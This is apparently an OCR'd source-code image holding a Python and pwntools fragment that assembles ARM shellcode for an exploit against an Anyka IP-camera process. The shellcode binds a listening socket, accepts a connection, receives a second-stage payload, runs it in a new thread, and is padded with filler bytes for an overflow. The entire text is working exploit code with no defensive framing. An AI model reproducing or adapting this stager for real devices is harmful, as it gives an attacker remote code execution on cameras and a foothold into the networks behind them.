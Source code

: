 ```
	mov r2, #0
	ldr r12, =#{hex(socket_addr)}
	blx r12
	stmdb sp!,{{r0}}
	  
	@ create the sockaddr in memory (can use a bit of the device_param space in anyka_ipc as only 64 bytes used)
	ldr r2, =#0x39050002
	ldr r1, =#{hex(sockaddr_in_addr)}
	str r2, [r1]
	stmdb sp!,{{r1}}
	
	@ now call bind with the socket_fd in r0, and the sockaddr addr in r1 (plus len in r2)
	mov r2, #0x10
	ldr r3, =#{hex(bind_addr)}
	blx r3
	  
	@ now call listen to wait for connections, assume all registers dead
	ldr r0, [sp, #4]
	mov r1, 0x3
	ldr r3, =#{hex(listen_addr)}
	blx r3
	  
	@ at this point we now have a connection, accept the connection, save new socket
	ldr r3, =#{hex(accept_addr)}
	ldr r2, =#0xb8ad4
	ldr r0, [sp, #4]
	ldr r1, [sp]
	blx r3
	stmdb sp!,{{r0}}
	  
	@ now we need to recv the data on the new socket
	ldr r1, [sp, #0xc]
	ldr r2, =#{hex(stage_2_length)}
	mov r3, #0x0
	ldr r4, =#{hex(recv_addr)}
	blx r4
	  
	@ now close the socket for cleanliness
	ldr r0, [sp, #0x0]
	ldr r3, =#{hex(close_addr)}
	blx r3
	  
	@ create a thread that executes the received function (arg 4 on stack)
	ldr r0, =#0xffffffff
	str r0, [sp, #0x0]
	ldr r0, =#{thread_id_addr}
	ldr r1, [sp, #0xc]
	mov r2, #0
	ldr r3, =#0x19000
	ldr r8, =#{create_thread_addr}
	blx r8
	  
	@ exit the thread now
	ldr r3, =#{ak_thread_exit_addr}
	blx r3
	"""
	  
	payload_assembled = asm(stage1_asm, arch='arm', endian="little")
	payload_assembled_bytes = bytes.fromhex(payload_assembled.hex())
	  
	# build payload
	payload = payload_assembled_bytes + (target_length - len(payload_assembled_bytes)) * b'\x41'
```
